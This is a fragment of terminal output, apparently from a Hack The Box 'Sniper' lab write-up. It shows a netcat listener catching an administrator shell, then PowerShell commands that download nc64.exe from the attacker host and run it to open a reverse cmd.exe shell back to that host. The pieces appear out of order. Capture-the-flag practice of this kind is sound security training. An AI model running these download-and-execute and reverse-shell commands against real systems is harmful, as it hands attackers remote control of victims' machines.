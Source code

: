 ```aaa
baud@kali:~/HTB/sniper$ nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.10.151] 49812
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
sniper\administrator

C:\Windows\system32>
```













[localhost]: PS C:\Users\Chris\Documents>
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { IWR http://10.10.14.144/nc64.exe -outfile C:\Users\Chris\Documents\nc64.exe }
[localhost]: PS C:\Users\Chris\Documents> Invoke-Command -ScriptBlock { C:\Users\Chris\Documents\nc64.exe -e cmd.exe 10.10.14.144 9090 }